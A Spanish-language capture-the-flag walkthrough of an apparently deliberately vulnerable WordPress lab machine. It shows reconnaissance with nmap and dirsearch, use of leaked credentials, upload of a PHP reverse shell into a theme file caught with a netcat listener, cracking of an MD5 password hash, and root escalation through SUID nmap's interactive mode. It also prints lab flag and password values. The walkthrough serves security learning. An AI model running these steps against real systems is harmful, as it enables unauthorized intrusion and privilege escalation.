 # Reconocimiento 
--- 
A primera vista esta maquina no nos da mucha información **visible** en la web, ya os aviso que no tenemos que hacer nada en la web ,sino que vamos a juanquear internamente

![Image](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/1foto.png)

## NMAP
Si realizamos un nmap basico a esta maquina observamos que nos da **3** puertos, Puerto FTP, puerto HTTP y HTTPS
 ~~~~bash
nmap -sV 10.10.92.13  
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-15 14:54 GMT
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 50.00% done; ETC: 14:55 (0:00:00 remaining)
Nmap scan report for 10.10.92.13
Host is up (0.068s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds
~~~~

No nos arroja mucha información importante, vamos a realizar un scanner de directorios usando 
dirsearch.py y obtenemos esto:

## Dirsearch 
~~~~bash
python3 dirsearch.py -u https://10.10.92.13  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.3                                             
 (_||| _) (/_(_|| (_| )                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 220545

Output File: /home/bardock/repos/dirsearch/reports/https_10.10.92.13/_22-11-15_15-00-19.txt

Target: https://10.10.92.13/

[15:00:19] Starting:                                                         
[15:00:21] 301 -  235B  - /images  ->  https://10.10.92.13/images/
[15:00:21] 200 -    0B  - /sitemap                                          
[15:00:22] 301 -  233B  - /blog  ->  https://10.10.92.13/blog/              
[15:00:22] 301 -    0B  - /rss  ->  https://10.10.92.13/feed/               
[15:00:22] 302 -    0B  - /login  ->  https://10.10.92.13/wp-login.php      
[15:00:23] 301 -  234B  - /video  ->  https://10.10.92.13/video/            
[15:00:23] 301 -    0B  - /feed  ->  https://10.10.92.13/feed/              
[15:00:23] 301 -    0B  - /0  ->  https://10.10.92.13/0/
[15:00:24] 301 -    0B  - /image  ->  https://10.10.92.13/image/            
[15:00:24] 301 -    0B  - /atom  ->  https://10.10.92.13/feed/atom/         
[15:00:25] 301 -  239B  - /wp-content  ->  https://10.10.92.13/wp-content/  
[15:00:26] 301 -  234B  - /admin  ->  https://10.10.92.13/admin/            
[15:00:27] 301 -  234B  - /audio  ->  https://10.10.92.13/audio/            
[15:00:28] 200 -  504KB - /intro                                            
[15:00:30] 200 -    1KB - /wp-login                                         
[15:00:31] 301 -  232B  - /css  ->  https://10.10.92.13/css/                
[15:00:31] 301 -    0B  - /rss2  ->  https://10.10.92.13/feed/              
[15:00:34] 200 -  158B  - /license                                          
CTRL+C detected: Pausing threads, please wait...
[q]uit / [c]ontinue: q
[q]uit / [c]ontinue: q
[s]ave / [q]uit without saving: q
 
Canceled by the user
~~~~

De directorios interesantes encontramos:
- `/license`
- `/wp-content`
- `/wp-login`
- `/robots.txt`

# 1º Flag
----
Examinamos el fichero `/robots.txt` y encontramos una ruta a la 1º flag
![Pasted image 20221115164902.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115164902.png)

---
![Pasted image 20221115165022.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115165022.png)

1º Flag = 073403c8a58a1f80d943455fb30724b9

## Explotacion 1.0

Examinamos el directorio /license y encontramos algo interesante
![Pasted image 20221115160421.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115160421.png)
# Explotación 2.0
---
Encontramos un codigo "cifrado" en base 64 que cuando desciframos obtenemos que las credenciales del usuario son:

![Pasted image 20221115160802.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115160802.png)

1. elliot
2. ER28-0652
Asi que regresamos al panel de login de wordpress e introducimos las claves que nos han dado y....

ENTRAMOS!!!

![Pasted image 20221115161354.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115161354.png)

## Explotación wordpress via PHP-revershe shell

Resulta que en la versión de wordpress (4.1.2) es vulnerable a una subida de reverse shell en un tema de PHP.
Usando la plantilla de reverse shell de [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) Tenemos que suplantar la plantilla y poner esa shell cambiando la variable **IP** y la variable **PORT**  que apuntan a nuestra reverse shell
~~~~bash
nc -lvnp 4444       
listening on [any] 4444 ...
~~~~
En mi caso mi puerto es 4444 y mi IP es XX.XX.XX.XX (poned la IP de tun0 VPN)



![Pasted image 20221115170810.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115170810.png)
Actualizamos el archivo y seguidamente para activar la reverse shell tenemos que apuntar directamente a la palntilla, apuntando a la URL http://10.10.92.13/wp-content/themes/twentyfifteen/404.php para que el php ejecute el codigo de dentro.

~~~bash
nc -lvnp 4444       
listening on [any] 4444 ...
connect to [XX.XX.XX.XX] from (UNKNOWN) [XX.XX.XX.XX] 54519
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 16:19:58 up  1:29,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
~~~
BAM! Tenemos shell

![Pasted image 20221115172126.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115172126.png)

# Explotación, Flag2 y 3
---

Siempre me gusta usar python, asi que vamos a usar una shell interactiva con python `python -c 'import pty; pty.spawn("/bin/bash")'`  y tenemos shell!!! pero aun no tenemos usuario ROOT con lo que eFazo.
No tenemos permisos para ejecutar ni hacer nada, pero en la carpeta del usuario hay un MD5 con la contraseña del usuario 
~~~~bash
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
~~~~

Introducimos el hash MD5 en internet y nos aparece

![Pasted image 20221115173155.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115173155.png)

En resumen: 
- User: robot
- Pass: abcdefghijklmnopqrstuvwxyz
Realizamos un SU robot para tener permisos SUDO, ahora si que podemos hacer un cat de la flag

![Pasted image 20221115173835.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115173835.png)

# Privesc y Flag3

Para escalar privilegios primero miramos que comandos y tools podemos ejecutar, mediante este comando

~~~~bash
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null    
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
~~~~
Y podemos ejecutar el comando nmap!!!


Para escalar privilegios tenemos que tirar de NMAP, ya que la versión 3.81

~~~~bash
robot@linux:~$ nmap -v
nmap -v

Starting nmap 3.81 ( http://www.insecure.org/nmap/ ) at 2022-11-15 16:39 UTC
No target machines/networks specified!
QUITTING!
~~~~

Hay una vulnerabilidad en la version de Nmap qeu nos permite generar una sesion de sh asi que 
ejecutando el comando `nmap --interactive` seguido de `!sh` para generarnos el entorno
Cambiamos al directorio `/root`

![Pasted image 20221115175025.png](https://github.com/shell-bomb/CTFs/blob/main/Imagenes/Pasted%20image%2020221115175025.png)

Y ya tenemos la FLAG!!!
Espero que os haya gustado este primer post, teneis por aqui mis redes sociales.
[Linkedin](https://www.linkedin.com/in/marco-carrasco-talan-6b5912198/)
[Github](https://github.com/shell-bomb)
[Youtube](https://www.youtube.com/channel/UCTgM3LdJZjpEpilLJB3piCA)
[Twitter](https://twitter.com/D0vahking)
[Discord](https://discord.gg/UXzFV3Dj8p)


